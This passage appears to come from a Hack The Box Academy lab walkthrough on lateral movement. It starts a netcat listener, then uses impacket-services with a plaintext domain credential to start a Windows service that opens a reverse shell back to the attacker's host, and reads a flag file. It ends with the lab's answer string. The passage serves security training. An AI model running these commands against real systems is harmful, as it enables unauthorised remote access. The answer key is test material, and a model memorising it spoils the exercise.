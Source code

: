 Code: shell

```shell
nc -nvlp PWNPO
```

```
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ nc -nvlp 9001

listening on [any] 9001 ...
```

Students will proceed to utilize `impacket-services` to start the `ALG` service:

Code: shell

```shell
impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 start -name ALG
```

```
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ impacket-services INLANEFREIGHT/helen:'RedRiot88'@172.20.0.52 start -name ALG

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Starting service ALG
```

Switching to the terminal tab of `netcat`, students will come to know that a reverse shell connection was established and can proceed to grab the `serviceflag.txt` flag located in the `C:\Flags\` directory:

Code: shell

```shell
type C:\Flags\serviceflag.txt
```

```
┌─[eu-academy-5]─[10.10.14.221]─[htb-ac-8414@htb-d4d4brjin5]─[~]
└──╼ [★]$ nc -nvlp 9001

listening on [any] 9001 ...
connect to [10.10.14.221] from (UNKNOWN) [10.129.229.244] 61403
Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> type C:\Flags\serviceflag.txt
```

Answer: `Using_Services_For_LateralMovement`

# Server Message Block (SMB)

## Question 3
